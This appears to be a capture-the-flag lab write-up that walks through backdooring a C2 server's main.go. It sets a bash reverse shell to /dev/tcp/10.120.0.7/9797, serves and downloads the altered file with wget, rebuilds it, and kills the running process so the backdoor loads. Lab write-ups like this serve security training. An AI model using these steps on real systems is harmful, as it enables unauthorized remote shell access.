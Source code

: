 # PC1

1. Resume From [🗂 Lateral Movement 2](../05-Lateral-Movement-2/)
2. Find `main.go` is C2 [🗂 C2 main.go](./02-main.go)
3. Check linux, `go` is installed!
```
go version
# go version go1.18.1 linux/amd64
```
4. Just Chabge `command` in [🗂 C2 Backdoored main.go](./04-main.go) Line: 107
```
... {"flag": flag_data, "command": "ls;/bin/bash -i >& /dev/tcp/10.120.0.7/9797 0>&1;"}
```
5. (local PC) Start: `nc -l 0.0.0.0 9797`
6. (local PC) Start: `python3 -m http.server`
7. Download `04-main.go` into C2
```
wget "http://10.120.0.7:8000/04-main.go"
```
8. Make a Backup of Old Files
```
mv main.go main.back.go
mv main main.bak
```
9. Build
```
mv 04-main.go main.go
go build main.go
```
10. Find Old `main` Proccess and kill it (`start.sh` will restart new code automatically)
```
ps

# find pid of `main`
kill 117404
```
11. (local PC: `nc`) Read Flag: MAZAPA_d230612eee83dbf304f84d6b3b0e0d86